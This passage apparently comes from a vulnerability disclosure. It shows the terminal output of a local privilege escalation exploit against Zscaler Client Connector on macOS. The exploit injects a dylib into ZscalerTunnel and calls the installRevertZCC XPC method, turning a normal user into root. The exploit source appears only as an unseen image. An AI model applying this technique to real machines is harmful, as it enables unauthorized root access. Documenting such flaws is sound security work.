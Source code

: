 
## Resultant output
```bash
08:34:44-testmac@mpro:~/Desktop/installRevertZCC/clean_exploit$ ls
total 168
drwxr-xr-x  7 testmac  staff   224B Dec 10 08:34 .
drwxr-xr-x  5 testmac  staff   160B Dec 10 07:35 ..
-rw-r--r--  1 testmac  staff   1.2K Dec 10 08:31 go.sh
-rw-r--r--  1 testmac  staff   2.0K Dec 10 08:30 installRevertZCC.m
08:34:33-testmac@mpro:~/Desktop/installRevertZCC/clean_exploit$ bash go.sh 
[i] 0) whoami; id; uname -a; hostname
testmac
uid=501(testmac) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae)
Darwin mpro.local 22.6.0 Darwin Kernel Version 22.6.0: Wed Jul  5 22:21:56 PDT 2023; root:xnu-8796.141.3~6/RELEASE_X86_64 x86_64
mpro.local
 
[i] 1) Setup
    [*] 1.1) Removing previous attempt if existing
    [*] 1.2) Creating directory
    [*] 1.3 Creating exploit script
    [*] 1.4) Setting executable bit on exploit & revert script
/tmp/Contents/MacOS/installbuilder.sh
 
[i] 2) Compiling dylib for env var injection
 
[i] 3) Performing env var injection
2023-12-10 08:34:39.051 ZscalerTunnel[3575:64120] [INFO] dylib constructor called from /Applications/Zscaler/Zscaler.app/Contents/PlugIns/ZscalerTunnel
2023-12-10 08:34:39.052 ZscalerTunnel[3575:64120] [CONNECTTOHELPERTOOL] obj: <__NSXPCInterfaceProxy_XPCProtocol: 0x7f9d5f70fa30>
2023-12-10 08:34:39.052 ZscalerTunnel[3575:64120] [CONNECTTOHELPERTOOL] conn: <NSXPCConnection: 0x7f9d602042d0> connection to service named com.zscaler.service-tray-communication
2023-12-10 08:34:39.068 ZscalerTunnel[3575:64122] [getVersionWithReply] version: Sending:4.1.500.3 on time: 2023-12-10 16:34:39 +0000
2023-12-10 08:34:39.092 ZscalerTunnel[3575:64122] [installRevertZCC] Response: "1"
2023-12-10 08:34:44.055 ZscalerTunnel[3575:64120] [INFO] Exiting, bye bye !
 
[i] 4) Reading resultant output logfile
root
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),701(com.apple.sharepoint.group.1),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae)
Darwin mpro.local 22.6.0 Darwin Kernel Version 22.6.0: Wed Jul  5 22:21:56 PDT 2023; root:xnu-8796.141.3~6/RELEASE_X86_64 x86_64
Sun Dec 10 08:34:39 PST 2023

[i] 5) Removing dylib
```